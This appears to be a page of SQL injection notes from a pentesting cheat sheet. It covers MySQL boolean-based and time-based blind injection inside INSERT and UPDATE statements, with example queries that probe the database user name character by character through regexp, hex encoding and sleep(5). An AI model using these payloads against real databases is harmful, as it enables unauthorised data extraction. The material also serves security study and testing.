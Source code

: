 ## Mysql

#### MySQL Blind Injection in Insert and Update Statements


##### Boolean Based Blind Injection:

If the result is true the entry will be updated with a ‘1’ and if the result is false the entry will be updated with a ‘0’.

USAGE :  regexp "anyregex"       with or without hex encoding

eg:  encoding r to hex is 72 add 0x also,

```update users set username = ‘0’ | (substr(user(),1,1) regexp 0x72) where id=14;```

now it will set username to 1 if user's first letter is r
```
update users set username = ‘0’ | (substr(user(),1,1) regexp 0x5e5b6d2d7a5d) where id=14;
 
 Without regexp
 UPDATE users set username = '0'| (substr(user(),1,1) = 'r');


insert into users values (15,’osanda’,'0'| (substr(user(),1,1) regexp 0x5e5b6d2d7a5d));
```

##### Time Based Blind Injection

```
update users set username = '0'|if((substr(user(),1,1) regexp 0x5e5b6d2d7a5d), sleep(5), 1) where id=15;

insert into users values (16,’osanda’,'0'| if((substr(user(),1,1) regexp 0x5e5b6d2d7a5d), sleep(5), 1));
```
